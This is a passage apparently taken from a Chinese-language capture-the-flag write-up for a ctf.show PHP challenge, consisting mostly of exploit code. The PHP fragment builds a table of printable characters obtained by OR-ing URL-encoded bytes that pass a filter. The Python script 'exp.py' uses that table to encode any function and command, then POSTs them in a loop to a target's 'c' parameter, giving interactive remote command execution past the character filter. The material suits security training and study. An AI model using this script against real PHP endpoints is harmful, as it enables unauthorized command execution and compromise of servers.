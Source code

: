 ```php
    }
  
		else{
		$a='%'.$hex_i;
		$b='%'.$hex_j;
		$c=(urldecode($a)|urldecode($b));
		if (ord($c)>=32&ord($c)<=126) {
			$contents=$contents.$c." ".$a." ".$b."\n";
		}
	}

}
}
fwrite($myfile,$contents);
fclose($myfile);
```

大体意思就是`从进行异或的字符中排除掉被过滤的，然后在判断异或得到的字符是否为可见字符`

exp.py

```py
# -*- coding: utf-8 -*-
import requests
import urllib
from sys import *
import os
os.system("php rce_or.php")  #没有将php写入环境变量需手动运行
if(len(argv)!=2):
   print("="*50)
   print('USER：python exp.py <url>')
   print("eg：  python exp.py http://ctf.show/")
   print("="*50)
   exit(0)
url=argv[1]
def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("rce_or.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()
   output="(\""+s1+"\"|\""+s2+"\")"
   return(output)
   
while True:
   param=action(input("\n[+] your function：") )+action(input("[+] your command："))
   data={
       'c':urllib.parse.unquote(param)
       }
   r=requests.post(url,data=data)
   print("\n[*] result:\n"+r.text)
```
